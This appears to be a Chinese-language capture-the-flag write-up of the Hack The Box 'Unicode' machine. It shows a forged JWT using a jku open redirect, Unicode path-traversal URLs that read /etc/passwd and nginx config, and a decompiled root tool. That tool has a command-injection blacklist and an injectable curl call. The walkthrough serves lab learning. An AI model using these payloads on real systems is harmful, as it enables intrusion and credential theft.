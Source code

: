 ```yaml
---
title: Unicode
date: 2022-02-06 21:12:59
tags: Hack The box
categories: 本地文件读取
---
```


## 信息收集

```bash
ports=$(nmap -p- --min-rate=1000 -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -oN result -p$ports $1
```
发现目标主机开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/94531f843e904009983662305cf416f7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们先访问一下web服务，发现是一个注册登录的页面，我们先注册一个用户登录看看页面都实现了哪些功能
![在这里插入图片描述](https://img-blog.csdnimg.cn/58b0c8b7d4da4868b8c55e31cf82b006.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

登录成功后，发现存在一个文件上传页面，但是经过多次尝试，可以上传成功，可是并不能获取到上传的路径
![在这里插入图片描述](https://img-blog.csdnimg.cn/2d61973f094d405389ede27aedcc29ba.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_19,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

当我打开查看网页cookie的时候，发现是JWT形式存储
![在这里插入图片描述](https://img-blog.csdnimg.cn/2e84937520c94758b02237094c1d8d3b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_14,color_FFFFFF,t_70,g_se,x_16)
我们解密JWT后发现存在一个url路径，我们将其添加到hosts文件后进行访问并将jwks.json值保存下来
![在这里插入图片描述](https://img-blog.csdnimg.cn/66a49f96c74949d6a7124ee8f4f46431.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/1a8a683ed66c4c01ba30fbcf25dcd74e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
这个漏洞利用过程就比较复杂了，也比较考验渗透测试者的经验和脑洞。首先我们先在[https://mkjwk.org/](https://mkjwk.org/)这个网站上生成一个用于反弹到本机上的json值，我们将生成的n值对应的值替换掉原来保存的jwks.json的值

![在这里插入图片描述](https://img-blog.csdnimg.cn/2395e952d4c2421c90faec928391bfa5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/7b089027eba64eba8226cb130c062b6d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5f4cf42fd9c54d4fabc001825bb29e5f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们利用url重定向，先在本地开放一个微型的服务器，然后将用户变换为admin，生成一个新的JWT值用户登录admin用户界面，最后将新生成的公钥私钥值复制到生成页面上。
![在这里插入图片描述](https://img-blog.csdnimg.cn/7dd0979b020f42769ff74f57dd9f6d3b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/f350f5bcd6314ccab112859ec77a8b67.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_17,color_FFFFFF,t_70,g_se,x_16)

![在这里插入图片描述](https://img-blog.csdnimg.cn/c18abc73505a467c8871475cfb0c06df.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_17,color_FFFFFF,t_70,g_se,x_16)
生成一个新的JWT值，替换掉用普通用户登录的JWT值，刷新页面

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuMjMvandrcy5qc29uIn0.eyJ1c2VyIjoiYWRtaW4ifQ.XdbEyn8OmY2soOmA_LCwfwPyW_CgWyMD0TyeVDQZ0KlVTLHTaiuhui961b8qXqc_Kbxu20Zt6FYaZV_JS9dP_RT19ecIdFMZaEkRup-y07r1KBoHMWiGTyg-Q9uc1auj3XMqjHSp6rT7eTEsVFv-qzjQEVPaRJfqYLoE6Hxt2aW2bvG1I3PoEm9oVnH3zXm_ngM46AC_4Iy3ZMXduufwEeJY8OLkQPlZgQ0s3tuQjDZqRjFMlYBz0sGkgw_Oud-40hvrylaQmJdmsulrbED9BLiuhCvbFrX_Q-tXlxkxHWc5Q52co1qf6A0P-2N_zeRjhw0M1RB3T7G2GvTKZGFJzQ
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f798ff356a704ad5978651ab61558088.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
点击current month页面是，发现是一个本地文件读取漏洞，并且一般的读取姿势还不能读取成功
![在这里插入图片描述](https://img-blog.csdnimg.cn/2a90ae4d3b0f4fabb4568a2c7e9543b3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试使用`U+FE30`的编码形式进行绕过，经过反复尝试成功读取到`/etc/passwd`文件的内容，这是有关文件读取编码绕过的具体内容[https://link.zhihu.com/?target=https%3A//lazarv.com/posts/unicode-normalization-vulnerabilities/](https://link.zhihu.com/?target=https://lazarv.com/posts/unicode-normalization-vulnerabilities/)

```bash
http://10.10.11.126/display/?page=%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/etc/passwd
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/37a1d401639748fa8d5f7d6a6d032e60.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们进行信息收集时发现，目标主机上运行着nginx服务器，我们可以尝试读取nginx相关的用户配置信息。读取到的路径是`/home/code/coder`，并且存在密码信息文件`db.yaml`

```bash
http://10.10.11.126/display/?page=%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/etc/nginx/sites-available/default
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d0b8d96c2fff4e1591dcb2463dd98829.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
成功读取到code用户信息和相关密码信息内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/c7333db6968b416cacbab568dcebd320.png)
从收集的信息上看，code用户是可以使用ssh连接bash终端的
![在这里插入图片描述](https://img-blog.csdnimg.cn/5909c1cd13dc4df6a51189f4a7ea807f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/02f18e5957bc45f5911b267d955b6828.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权到ROOT
发现可以以root身份运行treport程序，我们可以尝试运行分析其功能
![在这里插入图片描述](https://img-blog.csdnimg.cn/0ccb282c259d4e9ea27ec430d04b4b95.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现是对分析报告的生成，并且文件的类型是python，在第三个选择上调用了curl命令进行报告下载
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6e677204f80458db27023145b872e38.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
突破点就是在第三个选项上，但是我们不知道他具体程序的源码是怎么实现的，所以需要对这个python文件进行逆向源码还原。这里使用到的工具有`pyinstxtractor`和`pycdc`，并且将treport文件通过scp的形式下载下来
![在这里插入图片描述](https://img-blog.csdnimg.cn/f414b554fcc14d4c9351cf7763f734ba.png)
脚本运行成功后会产生一个新的文件夹
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ed3cfb08b8e4fd092e3fcbc27ebfe60.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
文件夹内大部分文件都是pyc文件格式
![在这里插入图片描述](https://img-blog.csdnimg.cn/121f6a8d3c3849f7af0cee4353e1848e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就要用到c和c++的转换工具了
![在这里插入图片描述](https://img-blog.csdnimg.cn/e895ce0488c147ffb5fd266f9be93cc5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a41b4ae29bb949d99332f17c8c92b5b7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
通过审计源代码可以得知，在下载文件部分使用了黑名单进行过滤，但是唯独没有过滤大括号，因此我们可以使用大括号进行文件读取，我们可以使用curl的--config参数对指定文件内容进行读取

```bash
./pycdc ../treport_extracted/treport.pyc
```

```python
# Source Generated with Decompyle++
# File: treport.pyc (Python 3.9)

Unsupported opcode: <255>
import os
import sys
from datetime import datetime
import re

class threat_report:
    
    def create(self):
Unsupported opcode: <255>
        file_name = input('Enter the filename:')
        content = input('Enter the report:')
        if '../' in file_name:
            print('NOT ALLOWED')
            sys.exit(0)
        file_path = '/root/reports/' + file_name
    # WARNING: Decompyle incomplete

    
    def list_files(self):
        file_list = os.listdir('/root/reports/')
        files_in_dir = ' '.join((lambda .0: [ str(elem) for elem in .0 ])(file_list))
        print('ALL THE THREAT REPORTS:')
        print(files_in_dir)

    
    def read_file(self):
Unsupported opcode: <255>
        file_name = input('\nEnter the filename:')
        if '../' in file_name:
            print('NOT ALLOWED')
            sys.exit(0)
        contents = ''
        file_name = '/root/reports/' + file_name
    # WARNING: Decompyle incomplete

    
    def download(self):
        now = datetime.now()
        current_time = now.strftime('%H_%M_%S')
        command_injection_list = [
            '$',
            '`',
            ';',
            '&',
            '|',
            '||',
            '>',
            '<',
            '?',
            "'",
            '@',
            '#',
            '$',
            '%',
            '^',
            '(',
            ')']
        ip = input('Enter the IP/file_name:')
        res = bool(re.search('\\s', ip))
        if res:
            print('INVALID IP')
            sys.exit(0)
        if 'file' in ip and 'gopher' in ip or 'mysql' in ip:
            print('INVALID URL')
            sys.exit(0)
        cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
        os.system(cmd)


# WARNING: Decompyle incomplete
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e74f33ca978844968ee75dd4938f38b9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
